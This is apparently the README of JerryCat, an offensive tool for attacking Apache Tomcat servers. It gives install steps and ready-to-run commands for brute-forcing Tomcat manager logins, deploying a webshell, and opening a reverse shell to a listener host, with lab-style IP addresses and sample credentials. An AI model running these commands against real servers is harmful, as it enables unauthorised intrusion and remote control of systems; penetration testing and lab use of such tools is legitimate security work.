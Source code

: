 <h1 align="center">JerryCat 🐭<h1>

![](https://github.com/user-attachments/assets/4250ae4e-f82a-4d4f-b34c-91c2f7921d23)


<p align="center">
  <img alt="Version" src="https://img.shields.io/badge/version-1.1-blue.svg?cacheSeconds=2592000" />
  <a href="https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE" target="_blank">
    <img alt="License: MIT" src="https://img.shields.io/badge/License-MIT-gray.svg" />
  </a>
  </br>
  <a href="https://twitter.com/Talace_" target="_blank">
    <img alt="Twitter: Talace_" src="https://img.shields.io/twitter/follow/Talace_.svg?style=social" />
  </a>
  <a href="https://twitter.com/LeandreOnizuka" target="_blank">
    <img alt="Twitter: LeandreOnizuka" src="https://img.shields.io/twitter/follow/LeandreOnizuka.svg?style=social" />
  </a>
</p>

## Features/Mode ⚒️

 - [x] [Brute Force (brute)](#brute-force)
 - [x] [Webshell (exec)](#webshell)
 - [x] [Reverse shell (reverse)](#reverse-shell)

## Setup ✨

Clone & install dependencies
```sh
git clone https://github.com/TheF0rceAwak5ns/JerryCat.git && cd JerryCat && pip install -r requirements.txt
```

## Usage - Unauthenticated attack 

### Brute Force
**without** a user list
```sh
python3 jerrycat.py brute http://10.10.10.10:8080/ -P resources/password-list-common-tomcat.txt
```
**with** a user list
```sh
python3 jerrycat.py brute http://10.10.10.10:8080/ -U /path/to/user/list -P resources/password-list-common-tomcat.txt
```

## Usage - Authenticated attack

### Webshell
```sh
python3 jerrycat.py exec http://10.10.10.10:8080/ -u tomcat -p s3cret
```

### Reverse shell
```sh
python3 jerrycat.py reverse http://10.10.10.10:8080/ -u tomcat -p s3cret --lhost 10.10.10.10 --lport 4444
```





